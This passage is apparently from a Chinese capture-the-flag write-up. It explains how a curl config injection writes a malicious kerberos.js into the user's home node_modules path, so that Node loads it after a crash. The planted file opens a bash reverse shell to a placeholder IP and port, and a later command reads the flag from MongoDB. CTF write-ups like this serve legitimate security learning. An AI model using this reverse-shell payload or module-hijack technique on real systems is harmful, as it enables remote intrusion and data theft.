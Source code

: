 ```
create-dirs
output="/home/user/.node_modules/kerberos.js"
```

然后 `-K GET` 把它作为 curlrc 加载，相当于可以指定任意、多个curl参数，也就是指定了 `--create-dirs --output=/home/user/.node_modules/kerberos.js`，把下面的内容保存到kerberos.js：

```
require('child_process').exec('bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1"')
```

触发一次node进程崩溃，重启的时候 require 就会加载这个 `/home/user/.node_modules/kerberos.js`

这个 `/home/user/.node_modules/kerberos.js` 是怎么来的呢，用strace看看 nodejs 里 require的时候会加载什么:

![](https://imgur.com/9TCOYO9.png)

题目给的 app.js 里有三行 require:

```javascript
const { MongoClient } = require("mongodb");
const cp = require('child_process');
const express = require("express");
```

正常来说 npm install 之后，这三行 require 肯定是可以正常工作的，但一些非 nodejs 原生库比如 mongodb 会试着去加载别的库来丰富自己的功能（optional feature）。require 的搜索顺序是先当前目录然后$HOME，这里的 kerberos.js 可能就是 express 或者 mongodb 加载的，具体没去看。

另外，这题的 Dockerfile 里在最后启动 node 进程之前切换了用户，之前往容器里添加文件是以 root 用户添加的

```
WORKDIR /app
COPY package.json ./
COPY static ./static
RUN npm i
COPY app.js .

RUN useradd -ms /bin/bash user
USER user

CMD ["/bin/sh", "-c", "while true; do node app.js; done"]
```

所以这里没有权限直接覆盖 /app/ 下的文件，user用户有权限写的地方就只有 /home/user/ (thanks to `useradd -m` : create the user's home directory if it does not exist) 和 /tmp。这才有了往 $HOME 下写文件会被加载的猜测。

RCE反弹shell之后，根据 dockerfile 里的线索连接 mongodb 读取 flag:

```
node -e '(async _ =>{const { MongoClient } = require("mongodb"); const client = new MongoClient("mongodb://mongodb:27017/"); q = await client.db("secret").collection("flag").find().toArray(); console.log(q);})()'
```

### jwtjail:

分析源码，其中有使用`vm`模块执行用户可控JavaScript代码，但禁用了代码生成。
